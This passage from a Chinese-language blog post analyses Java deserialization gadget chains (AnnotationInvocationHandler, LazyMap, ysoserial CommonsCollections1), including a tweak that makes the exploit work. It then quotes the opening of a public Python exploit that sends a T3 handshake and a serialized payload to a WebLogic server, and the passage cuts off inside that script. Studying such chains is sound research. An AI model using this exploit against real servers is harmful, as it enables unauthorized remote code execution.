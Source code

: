 [![](https://p2.ssl.qhimg.com/t018a8b1a641acc14f5.png)](https://p2.ssl.qhimg.com/t018a8b1a641acc14f5.png)

可以看到，var3 = var2.menberTypes()，所以等于一个键值对”value” -&gt; `{`Class[@606](https://github.com/606)`}` “class java.lang.annotation.RetentionPolicy”，

​ var5就是我们一开始的Map（innerMap.put(“key”, “value”);），所以var6为var5.getKey()，即”key”，这样一来，var3.get(“key”)就是null，因为var3的键为”value”。<br>
这个问题产生的原因是：AnnotationType.getInstance(this.type)是一个和注解有关的函数，具体的细节这里也不过多解释，和这里的利用相关的一点就是，var3是一个注解元素的键值对，键为value，值为Ljava.lang.annotation.RetentionPolicy。<br>
想要修改使exp生效也很简单，将原句改为innerMap.put(“value”, “value”);即可。

[![](https://p1.ssl.qhimg.com/t01db48f0bb7b78a144.png)](https://p1.ssl.qhimg.com/t01db48f0bb7b78a144.png)

##### <a class="reference-link" name="%EF%BC%88%E4%BA%8C%EF%BC%89LazyMap"></a>（二）LazyMap

根据ysoserial，调用链如图，

[![](https://p0.ssl.qhimg.com/t0136585477d16a7eac.png)](https://p0.ssl.qhimg.com/t0136585477d16a7eac.png)

这里使用了动态代理，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01a21c971fcc5b5be1.png)

前面提到，Ysoserial的CommonsCollections1采用的就是这种思路，故这一段的复现与调试放在下面的内容中

### <a class="reference-link" name="3.%E5%A4%8D%E7%8E%B0"></a>3.复现

网上流传的exp基本上都拥有相同的来源：

[https://github.com/breenmachine/JavaUnserializeExploits](https://github.com/breenmachine/JavaUnserializeExploits)

可能最原始的版本是这样的，

```
#!/usr/bin/python 
import socket
import struct
import sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
server_address = (sys.argv[1], int(sys.argv[2])) 
print 'connecting to %s port %s' % server_address 
sock.connect(server_address) 

# Send headers 
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n' 
print 'sending "%s"' % headers 
sock.sendall(headers) 

data = sock.recv(1024) 
print &gt;&gt;sys.stderr, 'received "%s"' % data 
payloadObj = open(sys.argv[3],'rb').read() 

```